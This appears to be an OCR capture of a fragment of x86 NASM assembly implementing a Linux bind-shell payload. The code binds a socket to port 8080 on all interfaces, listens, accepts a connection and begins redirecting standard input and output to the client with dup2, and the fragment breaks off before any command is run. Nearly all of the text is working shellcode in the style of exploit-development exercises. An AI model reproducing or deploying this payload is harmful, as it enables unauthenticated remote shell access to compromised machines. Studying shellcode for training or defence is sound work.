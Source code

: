 ```nasm
       
       mov ecx, esp         ; the top of the stack points to a structure of 3 arguments
       int 0x80             ; syscall - result is stored in eax
       mov edi, eax         ; stores sockfd

; bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_BIND                 2
       push edx             ; mysockaddr.sin_addr.s_addr = INADDR_ANY; //0 - listen on 0.0.0.0 (all interfaces)
       push word 0x901f     ; mysockaddr.sin_port = htons(dstport); //8080
       push word 2          ; AF_INET
       mov ebx, esp         ; stores the address of mysockaddr
       push byte 16         ; length of mysockaddr
       push ebx             ; pointer to mysockaddr
       push edi             ; sockfd

       xor ebx, ebx         ; flushing registers
       mul ebx
       mov al, 102          ; __NR_socketcall
       mov bl, 2            ; SYS_BIND
       mov ecx, esp         ; pointer to the args for socketcall
       int 0x80


; listen(sockfd, 0);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_LISTEN        4
       push edx             ; 0
       push edi             ; sockfd
       xor ebx, ebx         ; flushing registers
       mul ebx
       mov al, 102          ; __NR_socketcall
       mov bl, 4            ; SYS_LISTEN
       mov ecx, esp         ; pointer to the args for socketcall
       int 0x80 


; clientfd = accept(sockfd, NULL, NULL);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_ACCEPT        5
       xor ebx, ebx         ; flushing registers
       mul ebx

       push edx             ; NULL
       push edx             ; NULL
       push edi             ; sockfd

       mov al, 102          ; __NR_socketcall
       mov bl, 5            ; SYS_ACCEPT
       mov ecx, esp         ; pointer to args
       int 0x80             ; returns clientfd file descriptor in eax

; int dup2(int oldfd, int newfd); duplicates a file descriptor
; dup2(clientfd, 0); 
; dup2(clientfd, 1);
; dup2(clientfd, 2);
; #define __NR_dup2 63

       mov ebx, eax         ; clientfd as first argument
```